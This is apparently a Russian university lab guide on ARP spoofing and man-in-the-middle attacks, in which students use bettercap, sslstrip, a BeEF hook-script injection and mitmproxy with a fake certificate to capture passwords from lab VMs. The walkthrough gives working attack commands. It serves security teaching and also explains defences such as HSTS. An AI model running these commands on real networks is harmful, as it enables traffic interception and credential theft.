





# Лабораторная 4

Изучение принципа работы ARP спуфинга и атак типа "человек посередине", приобретение практических навыков выполнения атак.

Эта лабораторная сделана в стиле форд-боярда: нужно собрать три ключа чтобы ~~выбраться~~ сдать лабу.

### TL;DR

Если коротко: есть атаки, когда наш компьютер встраивается между пользователем и сайтом, пропуская через себя трафик. Это позволяет перехватывать информацию и изменять пакеты, получая кредо и другие ценные сведения.

Внимательный читатель может сказать, что пакеты обычно шифрованные и даже если их перехватить, нельзя извлечь из них много информации. Однако, можно либо заставить пользователя перейти на не шифрованный http трафик, либо перешифровывать все своим ключом.

p.s. хотя TL;DR охватывает ключевые моменты, мы рекомендуем прочитать теорию целиком.

# Теоретическая часть
## MiTM
MiTM (Man in The Middle, "человек посередине") - класс атак, в которых атакующий имеет возможность прослушивать и изменять трафик между атакуемой машиной или службой и службой, к которой атакуемый пытается получить доступ. Такие атаки происходят в реальном мире достаточно часто, например 20 октября 2023 была обнаружена [на сервер защищенного мессенджера Jabber](https://habr.com/ru/news/768914/).

## ARP
ARP - протокол для определения адреса канального уровня (MAC адреса) удаленной машины по ее IP адресу. MAC адреса, в свою очередь, записываются в поля "от кого" и "кому" Ethernet фреймов. Коммутаторы в своей работе не используют ARP, полагаясь вместо них на таблицу MAC адресов, которая составляется из входящих и исходящих из соответствующих физических портов Ethernet фреймов.

[Видео с хорошим подробным объяснением](https://www.youtube.com/watch?v=A7nih6SANYs)

Адреса, определенные с помощью ARP, хранятся в ARP таблице. В операционных системах на базе Linux просмотреть ее можно так:
```text
$ ip neigh
192.168.100.1 dev eth0 lladdr 08:00:27:35:b6:d7 REACHABLE

## ARP спуфинг
ARP спуфинг - сетевая атака, суть которой заключается в отправке ложных ARP пакетов.

Например, если есть маршрутизатор с IP адресом A, и атакуемый пользователь сети с IP адресом B, то атакующий может:
- отправить маршрутизатору ARP пакет, в котором говорится, что MAC адрес, соответствующий IP адресу B, равен MAC-адресу атакующего
- отправить пользователю ARP пакет, в котором говорится, что MAC адрес, соответствующий IP адресу A, равен MAC-адресу атакующего

Как только ARP таблица на машине пользователя сети обновится, во всех исходящих фреймах, предназначенных маршрутизатору, в Ethernet заголовке в поле "кому" будет выставлен MAC-адрес атакующего вместо MAC-адреса маршрутизатора. Маршрутизатор, являющийся по сути более умным коммутатором, при получении подобного фрейма, сразу же передаст его в соответствующий порт, где фрейм уже ожидает атакующий.

Таким образом, если правильно настроить атакующую машину, можно реализовать атаку типа "человек посередине" между маршрутизатором и пользователем сети.



Тогда путь ICMP запроса при вводе `ping 8.8.8.8` на машине пользователя сети будет выглядеть примерно так:

```text
Пользователь -> Порт A -> (Коммутация в) Порт B -> Атакующий -> Порт B -> Порт WAN -> Интернет
```

А путь ICMP ответа так:

```text
Интернет -> Порт WAN -> Порт B -> Атакующий -> Порт B -> (Коммутация в) Порт A -> Пользователь
```

Если же маршрутизацию на машине атакующего настроить неверно, то ARP спуфинг превращается в форму DoS атаки, т.к. машина атакующего будет просто отбрасывать все проходящие через нее пакеты, из-за чего на машине пользователя сеть будет недоступна.

# Спуффинг 

## MiTM спуффинг шифрованных соединений
В наши дни большая часть подключений ведется с использованием протоколов, использующих шифрование. Это затрудняет извлечение информации атакой типа MiTM.

В случае HTTPS, одна из простых и очевидных тактик перехвата данных - это изначально избежать шифрование соединения. Для этого машину атакующего можно настроить так, чтобы она не пропускала соединения к порту 443, а также заменять в нешифрованном HTTP-трафике все `https://` ссылки на `http://`. Тогда браузер на машине пользователя не сможет подключиться к целевому сайту по HTTPS по стандартному порту 443, и вместо него будет использовать нешифрованный HTTP, а замена всех `https://` ссылок `http://` предотвратит попытки открыть ссылки по безопасному протоколу. Такая атака называется sslstrip.

Для борьбы с sslstrip был изобретен [HSTS](https://ru.wikipedia.org/wiki/HSTS): HTTP заголовок, который указывает, что с сайтом необходимо соединяться только по HTTPS. Увидев этот заголовок, браузер его запоминает на установленное количество секунд (часто год). Таким образом, если браузер уже запомнил HSTS для сайта, то проведение атаки sslstrip становится невозможным.

Также существует предзагруженный в браузеры список доменов, которые открываются только по HTTPS: [документация Mozilla](https://developer.mozilla.org/en-USWeb/HTTP/Headers/Strict-Transport-Security#preloading_strict_transport_security), [сервис проверки](https://hstspreload.org/). Это делается для того, чтобы злоумышленники не могли использовать атаку sslstrip при первом посещении сайта, когда браузер еще не получил заголовок HSTS. Одним из доменов из этого списка является например mail.google.com - домент почты Google.

Более сложная атака - MiTM с перешифровкой соединений. Здесь атакующий сам устанавливает защищенное соединение с сайтом, а атакуемому отдает данные, перешифрованные своим ключом. Подобное часто применяется без злого умысла, например в случае веб-сервера, который отдает статику фронтэнда, и проксирует запросы в бекэнд, а также антивирусными решениями для проверки шифрованного трафика на вирусы, в корпоративной среде для избежания утечек, или разработчиками приложений для отладки сетевых запросов.

Для проведения подобной атаки, также как и для настройки HTTPS в веб-сервере, нужен приватный ключ и сертификат. При проведении атаки браузеры будут выдавать ошибки, с которыми можно либо согласиться и продолжить, либо установить корневой сертификат.

## DNS спуфинг
В протоколе DNS не используется шифрование, а значит доменные имена видит и интернет-провайдер, и потенциальный "человек посередине". Кроме того, по той же причине они также могут подменять ответы на запросы. Интернет-провайдерами это может быть использовано для реализации блокировок, а "человеком посередине" для фишинга.

# Практическая часть

Для выполнения практической части вам потребуется [скачать](https://lab4.forshielders.ru/blog/machines) две виртуальных машины, симулирующих клиента и сервер. Они обе имеют доступ в локальную сеть и общаются друг с другом. Наша задача - создать свою виртуальную машину атакующего, которая будет перехватывать этот трафик.

Ip адреса: 
* Сервер - 192.168.56.103
* Клиент - 192.168.56.102

Для ОС атакующего можно использовать любой доступный дистрибутив линукса, наш готовый образ использует kali linux. Подготовленный образ с установленными инструментами можно [найти](https://lab4.forshielders.ru/blog/machines) в разделе с виртуальными машинами на сайте.

## Инструменты

[Bettercap](https://www.bettercap.org/) - инструмент для исследования безопасности WiFi, Bluetooth, сетей IPv4 и IPv6.

[BeEF (Browser Exploitation Framework)](https://beefproject.com/) - инструмент для исследования безопасности браузеров. Сейчас многие атаки не работают на стандартных конфигурациях браузеров.

[mitmproxy](https://mitmproxy.org) - прокси для проведения MiTM атак на шифрованные соединения. Часто используется в законных целях разработчиками приложений для отладки.

Виртуальные машины атакующего, клиента и сервера

## Создание ВМ атакующего
Создайте виртуальную машину из предложенного диска **(логин и пароль kali)** или найтройте с нуля. 

Если вы создаете виртуальную машину, вам необходимо выполнить следующие действия:
1. Добавить второй сетевой адаптер - внутренняя сеть `intnet`. 
2. Установить пакеты, указанные в инструментах. Методы установки будут отличаться в зависимости от выбранной системы.


## ARP спуфинг
1. На машине атакующего в терминале выполнить `sudo bettercap`
2. Включить наблюдение за сетевым трафиком: ввести `net.sniff on`
3. Просканировать сеть, найти IP и MAC адрес ВМ пользователя сети: `net.probe on`. Когда ВМ пользователя сети будет найдена, сканирование можно отключить: `net.probe off`.

## Задание 1 - получить http трафик

Включить ARP спуфинг

     set arp.spoof.targets ip, где ip - IP адрес ВМ пользователя
     set arp.spoof.fullduplex true
     set arp.spoof.internal true
     arp.spoof on

После небольшого ожидания мы увидим трафик клиента. На клиент машине один из сайтов открывается по http и с него мы уже можем получить данные. 
Мы можем увидеть, каким паролем для захода на сайт воспользовался клиент. Зайдем в браузер по адресу "part1.local" и получим 

Теперь выключаем спуфинг: 
    
    arp.spoof off

:::tip Ура!

Первый ключ для сдачи лабораторной получен!

:::

## Задание 2 - получить https трафик

Самым простым способом будет заставить пользователя перейти с https на http соединение. Для этого воспользуемся sslstrip. Это инструмент, который позволяет принудительно заставить клиента перейти на http соединения. Интересная часть заключается в том, что клиент никак не может предотвратить это: единственный способ защиты - просто разорвать соединение и не пользоваться незащищенной страницей:

### sslstrip

В bettercap ввести:
```text
set http.proxy.sslstrip true
http.proxy on
arp.spoof on
```

Это позволит нам заставить осторожного пользователя перейти на незащищенный трафик и аналогично первому пункту получить искомый ключ.



Не смотря на работающий sslstrip мы почему-то не видим кредов пользователя. Попробуем зайти part2.local чтобы посмотреть, что происходит.

:::danger Подумайте!

Почему мы не видим пароль? Какие действия сделал пользователь, увидев содержание сайта?

:::

### Инъекция BeEF
Заражает открываемые жертвой страницы скриптом beef. Эта атака пользуется следующей ситуацией: пользователь ввел на странице пароль, но увидел, что соединение не защищено и не стал отправлять форму. Однако наш вредоносный скрипт записал действия на странице и передал нам нажатия кнопок пользователя.

:::danger Осторожно!

Наш клиент умный, и как только он увидит подозрительное поведение на странице, он перестанет пытаться вводить свой пароль, так что у нас есть только одна попытка на beef. Если вы перепутали последовательность команд, перезапустите машину клиента

:::

Начнем со включения beef в отдельном терминале, котрый будет принимать пакеты от вредоносного скрипта:

    sudo beef-xss


Логин - beef
Пароль задается при запуске

Пример ввода в bettercap, где 192.168.56.101 - IP адрес ВМ атакующего (отображается в bettercap):
```text
http.proxy off
set http.proxy.injectjs http://192.168.56.101:3000/hook.js
http.proxy on
```



Заходим на part2.local, вводим успешно полученный пароль, получаем ключ.


:::tip Ура!

Второй ключ для сдачи лабораторной получен!

:::

## Задание 3 - что делать, если пользователь не переходит на http?

В случае, если пользователь не переходит на http трафик, мы не сможем расшифровать перехваченые пакеты. Представим, что нам удалось провести атаку по другому вектору и подложить пользователю свой доверенный сертификат. В таком случае, мы сможем перешифровывать проходящий через нас трафик, читая и изменяя его: 

Выключить sslstrip, если он включен (некоторые прошлые пункты ЛР перестанут работать!):
```text
http.proxy off
```

1. Скачать ключ [с сайта](https://lab4.forshielders.ru/blog/machines) на машину (в готовом образе он уже сохранен на рабочем столе)
2. В отдельный терминал ввести 
```text
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
sudo iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

mitmproxy -k --certs [путь до сертификата]/bundle_private_fake.pem
```

В открывшемся терминале можно нажать fn+shift+alt чтобы выбрать и скопировать пойманый ключ
Включить arp.spoof, если выключен.

:::tip Ура!

Мы получили третий, дополнительный ключ для сдачи лабы

:::

### Заключение:

В качестве результата лабораторной работы вы получите несколько уникальных ключей, которые нужно будет передать преподавателю. Не пытайтесь пользоваться чужими ключами, они уникальные!

В отчет добавить все полученные ключи.


:::danger Важно!

Все нужно вводить ровно так же, как вы вводили при запуске виртуалок!

:::


<iframe src="/checkpage" style={{width: "100%", height: "30em"}} />

